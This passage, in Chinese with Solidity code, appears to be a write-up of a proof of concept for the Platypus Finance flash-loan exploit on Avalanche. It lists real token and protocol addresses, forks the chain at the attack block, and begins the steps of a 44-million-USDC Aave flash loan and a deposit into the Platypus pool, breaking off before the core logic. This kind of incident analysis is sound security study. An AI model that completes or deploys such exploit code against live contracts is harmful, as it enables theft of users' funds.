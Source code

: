 ```solidity
        address _user,
        address _token,
        bool _open
    ) external view returns (bool solvent, uint256 debtAmount) ;
    function positionView(address _user, address _token) external view returns (PositionView memory);
    /// @notice A struct to preview a user's collateral position; external view-only
    struct PositionView {
        uint256 collateralAmount;
        uint256 collateralUSD;
        uint256 borrowLimitUSP;
        uint256 liquidateLimitUSP;
        uint256 debtAmountUSP;
        uint256 debtShare;
        uint256 healthFactor; // `healthFactor` is 0 if `debtAmountUSP` is 0
        bool liquidable;
    }
}
```
- 这里就用的Token和接口实例

```solidity
contract ContractTest is Test{
    AaveV3Pool aaveV3Pool = AaveV3Pool(0x794a61358D6845594F94dc1DB02A252b5b4814aD);

    IERC20 USDC = IERC20(0xB97EF9Ef8734C71904D8002F8b6Bc66Dd9c48a6E);
    IERC20 USDC_e = IERC20(0xA7D7079b0FEaD91F3e65f86E8915Cb59c1a4C664);
    IERC20 USDT = IERC20(0x9702230A8Ea53601f5cD2dc00fDBc13d4dF4A8c7);
    IERC20 USDT_e = IERC20(0xc7198437980c041c805A1EDcbA50c1Ce5db95118);
    IERC20 BUSD = IERC20(0x9C9e5fD8bbc25984B178FdCE6117Defa39d2db39);
    IERC20 DAI_e = IERC20(0xd586E7F844cEa2F87f50152665BCbc2C279D8d70);
    ILP_USDC LP_USDC = ILP_USDC(0xAEf735B1E7EcfAf8209ea46610585817Dc0a2E16);
    IUSP USP = IUSP(0xdaCDe03d7Ab4D81fEDdc3a20fAA89aBAc9072CE2);

    PlatypusPool platypusPool = PlatypusPool(0x66357dCaCe80431aee0A7507e2E361B7e2402370);

    MasterPlatypusV4 masterPlatypusV4 = MasterPlatypusV4(0xfF6934aAC9C94E1C39358D4fDCF70aeca77D0AB0);
    PlatypusTreasure platypusTreasure = PlatypusTreasure(0x061da45081ACE6ce1622b9787b68aa7033621438);//这里应该是proxy的地址


    function setUp() public {
        vm.createSelectFork('Avalanche', 26343614 - 1);
    }
}
```

## 开始开始POC逻辑

### - step1：从 aaveV3，闪电贷 44,000,000个USDC
```solidity
    function testExploit() public {

        aaveV3Pool.flashLoanSimple(address(this), address(USDC), 44_000_000e6,  abi.encode(""), 0);

    }
```
### - step2：向 `platypusPool` 提供流动性， 44,000,000个USDC，得到LP Token
```solidity
    function executeOperation(address asset, uint amount, uint premium, address initiator, bytes memory params) external returns (bool){
```